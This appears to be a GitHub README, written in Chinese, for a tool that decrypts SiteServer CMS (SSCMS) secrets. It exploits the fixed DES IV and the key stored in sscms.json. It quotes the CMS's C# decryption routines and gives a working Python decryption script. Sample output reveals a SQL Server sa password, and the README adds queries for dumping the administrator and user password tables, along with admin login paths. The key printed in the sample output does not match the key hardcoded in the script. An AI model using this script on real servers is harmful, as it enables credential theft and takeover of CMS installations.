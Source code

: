 # sscms（siteserver cms） database decrypt

简介：SSCMS 基于 .NET Core，能够以最低的成本、最少的人力投入在最短的时间内架设一个功能齐全、性能优异、规模庞大并易于维护的网站平台。

项目地址：https://github.com/siteserver/cms



## Des Decrypt

`https://github.com/siteserver/cms/blob/master/src/SSCMS/Utils/DesEncryptor.cs`

```python

 python3 sscms_decrypt.py
 
[+] Current Encrypt Data= 0NofLD4zWcY/jm+42NYzug==
[+] secretKey= f9c01027
[+] iv_hex= 1234567890abcdef
[+] 数据库类型：SqlServer

[+] Current Encrypt Data= B0SvIg6ExtjhllXf3vb9UwjmLKSRMlqQ1LIs6a8G0G/M1cWZ2ABJ6lvZOMlvKR+vM7/QKGc8pYo8t6sumMerqA==
[+] secretKey= f9c01027
[+] iv_hex= 1234567890abcdef
[+] 数据库配置信息：Server=192.168.77.200;Uid=sa;Pwd=p@ssw0rd2020;Database=sscms;
```

## sscms.json

```json

{
  "IsNightlyUpdate": false,
  "IsProtectData": true,
  "AdminDirectory": "siteserver",
  "HomeDirectory": "home",
  "SecurityKey": "f9c01027278a387b",
  "Database": {
    "Type": "0NofLD4zWcY0slash0jm0add042NYzug0equals00equals00secret0",
    "ConnectionString": "B0SvIg6ExtjhllXf3vb9UwjmLKSRMlqQ1LIs6a8G0G0slash0M1cWZ2ABJ6lvZOMlvKR0add0vM70slash0QKGc8pYo8t6sumMerqA0equals00equals00secret0"
  },
  "Redis": {
    "ConnectionString": ""
  }
}
```

#### 系统安装后，SS CMS 系统将把数据库连接信息存放于 `sscms.json` 配置文件中：

- IsProtectData：数据库连接是否加密存储
- SecurityKey：加密秘钥，系统随机生成
- Database:Type：数据库类型
- Database:ConnectionString：数据库连接字符串

### 数据库用户密码表解密

#### 前台用户表：

前台登录地址: 
http://x.x.x.x/home/pages/login.html
![image](https://user-images.githubusercontent.com/16593068/144416418-bed8f5fc-d294-4b82-8989-4ad45b9dae4b.png)

`SELECT * FROM jxxt.dbo.siteserver_User`

#### 后台管理员表

后台登录地址：
http://x.x.x.x/SiteServer/pageLogin.cshtml

![image](https://user-images.githubusercontent.com/16593068/144416281-a033c123-9e37-4dfb-aa66-f3c76a59a9d4.png)


`SELECT * FROM jxxt.dbo.siteserver_Administrator`

![image](https://user-images.githubusercontent.com/16593068/144417044-934e5a90-72b4-4664-986a-ead939821062.png)


对应的解密代码：

https://github1s.com/siteserver/cms/blob/siteserver-v6.13.0/SiteServer.CMS/Provider/AdministratorDao.cs#L1126


```c#
        private string DecodePassword(string password, EPasswordFormat passwordFormat, string passwordSalt)
        {
            var retVal = string.Empty;
            if (passwordFormat == EPasswordFormat.Clear)
            {
                retVal = password;
            }
            else if (passwordFormat == EPasswordFormat.Hashed)
            {
                throw new Exception("can not decode hashed password");
            }
            else if (passwordFormat == EPasswordFormat.Encrypted)
            {
                var encryptor = new DesEncryptor
                {
                    InputString = password,
                    DecryptKey = passwordSalt
                };
                encryptor.DesDecrypt();

                retVal = encryptor.OutString;
            }
            return retVal;
        }
```

`DecryptKey = passwordSalt`

通过passwordSalt初始化DecryptKey值，进行DES解密，

```c#
		/// 解密密钥
		/// </summary>
		public string DecryptKey
		{
			get { return _decryptKey; }
			set { _decryptKey = value; }
		}
```

跟踪 
`var encryptor = new DesEncryptor`
`encryptor.DesDecrypt();`

即调用 **DesEncryptor.DesDecrypt()** 方法

```c#
		public void DesDecrypt()
		{
		    byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
		    try
			{
				var byKey = Encoding.UTF8.GetBytes(_decryptKey.Substring(0, 8));
				var des = new DESCryptoServiceProvider();
				var inputByteArray = Convert.FromBase64String(_inputString);
				var ms = new MemoryStream();
				var cs = new CryptoStream(ms, des.CreateDecryptor(byKey, iv), CryptoStreamMode.Write);
				cs.Write(inputByteArray, 0, inputByteArray.Length);
				cs.FlushFinalBlock();
				Encoding encoding = new UTF8Encoding();
				_outString = encoding.GetString(ms.ToArray());
			}
			catch (Exception error)
			{
				_noteMessage = error.Message;
			}
		}
```

对用python3代码：

```python

import base64,pyDes

def sscms_decrypt(encodeData):
    var1 = encodeData.replace("0secret0", "").replace("0add0", "+").replace("0equals0", "=").replace("0and0", "&").replace("0question0", "?").replace("0quote0", "'").replace("0slash0", "/")
    var2 = base64.b64decode(var1)
    print("[+] Current Encrypt Data= " + var1)
    secretKey = 'Y2MlWp4hGY2Wcb9tzIiR2w=='[0:8]
    print("[+] secretKey= " + secretKey)
    iv_hex = "1234567890abcdef"
    iv = bytes.fromhex(iv_hex)
    print("[+] iv_hex= " + iv_hex)
    k = pyDes.des(secretKey, pyDes.CBC, iv, pad=None, padmode=pyDes.PAD_PKCS5)
    return k.decrypt(var2) + b"\n"

Data = "VpGCBufzbT+j/zYDjDmtWw=="

print(sscms_decrypt(Data).decode("utf-8"))
```

